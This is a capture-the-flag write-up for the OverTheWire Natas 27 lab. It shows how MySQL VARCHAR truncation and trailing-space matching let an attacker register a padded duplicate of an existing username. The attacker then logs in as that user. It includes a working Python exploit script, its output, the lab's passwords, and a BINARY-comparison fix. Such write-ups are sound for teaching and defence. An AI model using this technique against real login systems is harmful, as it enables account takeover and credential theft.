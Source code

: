 ```yaml
---
category: natas
title: Natas27 - Trailing spaces for varchar in MYSQL
---
```


website: http://natas27.natas.labs.overthewire.org/ (password: 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ)

Here is the behavior in this challenge:
1. If a user types in the correct username and password, the credential for the next level will be printed out.
2. If the username exists, but the provided password is not correct, then you will be prompted "Wrong password".
3. If the username doesn't exist at all, then a new account will be created with the provided username and password.

At my first glance, I think it's a SQL injection challenge because the authentication is done by SQL queries.
However, given that `mysql_real_escape_string` is used to filter out those special characters,
I wasn't able to bypass the authentication by injecting any SQL statement.

After going through <a href="https://dev.mysql.com/doc/refman/5.7/en/char.html">this section</a> in MYSQL reference Manual,
I learned a few things:
1. For a `varchar` field, trailing spaces in excess of the column length are truncated prior to insertion and a warning is generated, regardless of the SQL mode in use.
2. `varchar` values are not padded when they are stored. Trailing spaces are retained when values are stored and retrieved, in conformance with standard SQL.

Also I learned that for a `WHERE` clause in MYSQL, the trailing spaces will be ignored when matching a field using "=". Here is an example:

```sql
mysql> CREATE TABLE users (username VARCHAR(4) DEFAULT NULL, password VARCHAR(4) DEFAULT NULL);
Query OK, 0 rows affected (0.01 sec)

mysql> INSERT INTO users (username,password) VALUES ('a', 'a1');
Query OK, 1 row affected (0.00 sec)

mysql> INSERT INTO users (username,password) VALUES ('a         b', 'a2');
Query OK, 1 row affected, 1 warning (0.01 sec)

mysql> SELECT *, LENGTH(username) FROM users WHERE username='a';
+----------+----------+------------------+
| username | password | LENGTH(username) |
+----------+----------+------------------+
| a        | a1       |                1 |
| a        | a2       |                4 |
+----------+----------+------------------+
2 rows in set (0.00 sec)
```

As shown above, I inserted two records into the table.
For the 2nd record, because the username exceeds the max length limitation, the rest characters were truncated,
leaving the letter 'a' and three trailing spaces inserted into the table.
The last SQL statement is much to our surprise:
When trying to query records whose username is "a",
it returns both records though the 2nd row's username is not "a", but a letter 'a' followed by three spaces.
This is because the trailing spaces are ignored when matching a field using "=" in a `WHERE` clause.

Based on the above observation, we can think of this trick:
Let's type in a very long string as the username, e.g., "natas28" followed by 60 spaces and ended with a letter 'a'.
We also type in "1" as the password.
This account will be created in the database and its username will be truncated when its length reaches to 64.
After that, we will have two records in the database:
- natas28
- natas28 (followed by 57 trailing spaces)

We don't know the password for the user "natas28",
but we <em>do</em> know the password for the 2nd user, which is "1".
Then we visit this page again by providing username "natas28" and password "1".
According to what we just learned from the above example,
we will hit the 2nd user because the trailing spaces are ignored when matching the `username` field.
This makes the following line return true:

```php
$query = "SELECT username from users where username='$user' and password='$password' ";
$res = mysql_query($query, $link);
if(mysql_num_rows($res) > 0){
	return True;
} 
```

The complete solution is provided below:

```python
#!/usr/bin/env python3

import requests
from requests.auth import HTTPBasicAuth

url = 'http://natas27.natas.labs.overthewire.org'
auth = HTTPBasicAuth('natas27', '55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ')

username = 'natas28' + ' ' * 60 + '1'
password = '1234'
#print(username)

# Step 1: Create a new user "natas28  " (57 spaces following)
print("Sending a request to create a user similar to natas28...")
resp = requests.post(url, auth=auth, data={"username": username, "password": password})
if 200 != resp.status_code:
    print('failed to send request')
    exit(1)
print(resp.text)

# Step 2: Send a query request for "natas28"
print("Trying to log in...")
resp = requests.post(url, auth=auth, data={"username": 'natas28', "password": password})
print(resp.text)
```

Running the above script returns us the password <small>JWwR438wkgTsNKBbcJoowyysdM82YjeF</small>:
```bash
$ python3 natas27.py
Sending a request to create a user similar to natas28...
... <skipped>

User natas28                                                            1 was created!

... <skipped>

Trying to log in...

... <skipped>

Welcome natas28!<br>Here is your data:<br>Array
(
    [username] =&gt; natas28
    [password] =&gt; JWwR438wkgTsNKBbcJoowyysdM82YjeF
)

... <skipped>
```


<strong>LESSONS LEARNED</strong>

We have covered several topics in this challenge:
1. For a `WHERE` clause in MYSQL, the trailing spaces will be ignored when matching a field using "=".
2. For a `varchar` field, the characters exceeding the column length are truncated prior to insertion.

Just a few additional comments for this challenge.
1. The above notes are true in MYSQL 5.7. However, I noticed that in MYSQL 8, the default behavior is different.
To verify it, you can run my example in MYSQL 8.
2. If you want your `SELECT` query doesn't ignore trailing spaces, you should use the keyword `BINARY`.
For example:

```sql
mysql> SELECT *, LENGTH(username) FROM users WHERE username= BINARY 'a';
+----------+----------+------------------+
| username | password | LENGTH(username) |
+----------+----------+------------------+
| a        | a1       |                1 |
+----------+----------+------------------+
1 row in set (0.00 sec)

mysql> SELECT *, LENGTH(username) FROM users WHERE username= BINARY 'a ';
Empty set (0.00 sec)

mysql> SELECT *, LENGTH(username) FROM users WHERE username= BINARY 'a   ';
+----------+----------+------------------+
| username | password | LENGTH(username) |
+----------+----------+------------------+
| a        | a2       |                4 |
+----------+----------+------------------+
1 row in set (0.00 sec)
```

<strong>References</strong>

MYSQL 5.7 Reference Manual:
1. <a href="https://dev.mysql.com/doc/refman/5.7/en/char.html">The CHAR and VARCHAR Types</a>
2. <a href="https://dev.mysql.com/doc/refman/5.7/en/sql-mode.html">Server SQL Modes</a>

